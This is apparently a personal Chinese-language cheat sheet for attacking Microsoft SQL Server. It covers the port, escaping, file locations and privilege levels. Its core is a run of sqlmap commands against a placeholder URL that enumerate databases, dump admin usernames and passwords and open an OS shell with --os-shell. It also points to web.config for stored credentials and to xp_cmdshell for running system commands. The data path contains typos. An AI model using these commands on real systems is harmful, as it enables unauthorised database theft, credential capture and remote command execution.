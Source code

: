# SqlServer
端口 1433
## 转义
sqlsserver 用"" 来转义 "

## 删除/备份/导入导出
cracer.mdf
cracer_log.ldf

两个文件都要备份提取。

数据库Path: C:\Progran Files\Microsoft SQL Server\MSSQL10_50.HSSOLSERVER\MSSQL\DATA

## 数据库权限
```
sa权限 - system
db权限 - users-adminstrators
public - guest-users
```

```bash
sqlmap -u http://url.php?id=1 --current-db --batch # 得到test
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
```

## config密码等 

在asp web的目录下

web.config

## 命令执行

方法一：xp_cmdshell 

exec master..xp_cmdshell "whoami"默认执行是关闭 

https://blog.csdn.net/weixin_30654583/article/details/97225375